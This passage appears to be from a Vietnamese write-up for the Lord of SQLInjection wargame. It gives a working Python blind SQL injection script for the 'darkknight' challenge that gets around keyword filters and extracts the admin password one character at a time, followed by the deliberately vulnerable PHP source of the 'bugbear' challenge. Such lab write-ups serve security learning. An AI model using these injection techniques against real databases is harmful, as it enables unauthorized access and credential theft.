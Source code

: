 filter: pw `'`

no `_ . () substr ascii =`

Câu này cũng brute force như các câu trên thay vì viết script ở pw thì lần này viết ở no mà no là int nên ta sẽ có payload kiểu như sau `no = 1|| 1 like 1` và `admin` sẽ phải đổi thành `hex` vì asscii bị filter , `substr` thành `left` , dấu `=` thành `like` => ta có payload như sau

```python
import requests
import string
url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
char = string.printable
cookie = {'Cookie':'PHPSESSID=7ih6g2u8u6tdme1u61etcjhgb7'}
password =''
session = requests.session()
for i in range(1,20):
    for j in char:
        pass_1 = password + j
        print(pass_1)
        param = 'pw= 1&no= 1 || 1 like 1 %26%26 id like 0x61646d696e %26%26 left(pw,{}) like "{}"-- -'.format(i,pass_1)
        r = session.get(url , params = param , headers = cookie)
        if ('Hello admin' in r.text):
            password = password + j
            print(password)
            break
#0b70ea1f
```

## BUGBEAR

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
